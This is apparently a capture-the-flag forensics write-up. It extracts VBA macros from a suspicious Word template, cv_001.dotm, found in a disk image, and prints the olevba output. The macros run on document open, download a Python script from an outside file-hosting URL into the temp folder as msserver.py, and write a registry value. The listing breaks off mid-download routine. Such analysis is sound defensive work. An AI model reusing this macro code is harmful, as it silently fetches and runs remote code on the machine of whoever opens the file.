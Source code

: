 ```Schmerz-1```

The given .ad1 had a dotm file on the desktop - cv_001.dotm

extracted the .dotm file with 7z, found out it had VBA macros inside.

Used olevba to extract the macros 

```bash
olevba 0.60.1 on Python 3.10.12 - http://decalage.info/python/oletools
===============================================================================
FILE: cv_001.dotm
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls
in file: word/vbaProject.bin - OLE stream: 'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO NewMacros.bas
in file: word/vbaProject.bin - OLE stream: 'VBA/NewMacros'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -

Sub AutoOpen()
    DownloadAndOpenFile
    RegistryEntry
End Sub

Sub Document_Open()
    DownloadAndOpenFile
    RegistryEntry
End Sub


Sub RegistryEntry()
    Dim keyName As String
    Dim data As String
    Dim path As String
    Dim myWS As Object
    Dim stype As String
    Set myWS = VBA.CreateObject("WScript.Shell")

    path = "HKEY_CURRENT_USER\Software\Uninstall\"
    keyName = "Application"
    keyValue = "fA3bDt"
    stype = "REG_SZ"
    myWS.RegWrite path & keyName, keyValue, stype
End Sub

Sub DownloadAndOpenFile()
    Dim url As String
    Dim destinationPath As String
    Dim shell As Object
    Dim pythonPath As String
    Dim command As String
    pythonPath = "python.exe"
    url = "https://filebin.net/g5lap7a613mo3x3o/client.py"
    destinationPath = Environ("TEMP") & "\msserver.py"
    With CreateObject("MSXML2.ServerXMLHTTP")
        .Open "GET", url, False
        .send
        If .Status = 200 Then
            Dim stream As Object
```